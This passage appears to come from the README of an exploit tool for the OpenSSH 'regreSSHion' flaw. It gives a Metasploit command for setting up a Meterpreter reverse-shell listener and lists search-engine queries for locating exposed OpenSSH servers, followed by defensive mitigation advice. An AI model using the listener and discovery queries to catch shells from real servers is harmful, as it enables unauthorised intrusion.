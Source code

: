 ### Catching payload
All you have to do is to run the command below first (change the {yourip} handler) and run the exploit afterwards with the command above 
```bash
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD linux/x64/meterpreter/reverse_tcp; set LHOST {yourip}; set LPORT 9999; exploit -j"
```

## Output
The tool provides color-coded output to the console for better readability:

Green: Successful connection or operation.
Red: Failed connection or error.
Yellow: Warnings or noteworthy information.
Cyan: General information or status updates.

## 🔍 Host Discovery 
- **Hunter**: `/product.name="OpenSSH"`
- **FOFA**: `app="OpenSSH"`
- **SHODAN**: `product:"OpenSSH"`
- **CENSYS**: `(openssh) and labels=remote-access`

## 🛠️ Mitigation
- **Patch Management**: Swiftly applying available patches for OpenSSH is critical to closing the vulnerability gap. Timely patching ensures that known exploits cannot be leveraged against your systems, thereby reducing the window of opportunity for attackers.

- **Enhanced Access Control**: Limiting SSH access through network-based controls adds an additional layer of defense. This approach minimizes exposure to potential attackers by restricting SSH connections to only authorized networks or IP addresses. Implementing tools like firewall rules or using VPNs for secure access can effectively enforce these restrictions.

- **Network Segmentation**: Dividing your network into segments helps contain the impact of a potential breach. By segmenting critical systems and sensitive data from less critical parts of your network, you reduce the risk of lateral movement by attackers. This segmentation can be complemented with strict access controls and monitoring to detect and respond to any unauthorized attempts to breach these segments.

- **Intrusion Detection Systems (IDS)**: Deploying IDS or intrusion prevention systems (IPS) enables real-time monitoring of network traffic and system logs. These systems can detect suspicious activities and potential exploitation attempts associated with the regreSSHion vulnerability. Alerts triggered by such systems allow for prompt investigation and mitigation before significant damage can occur.

- **Monitoring for Exploitation Attempts**: Continuous monitoring of network and system logs is crucial. Look for any unusual patterns or activities that could indicate an attempt to exploit the OpenSSH vulnerability. This proactive approach helps in identifying and responding to threats before they can cause harm.

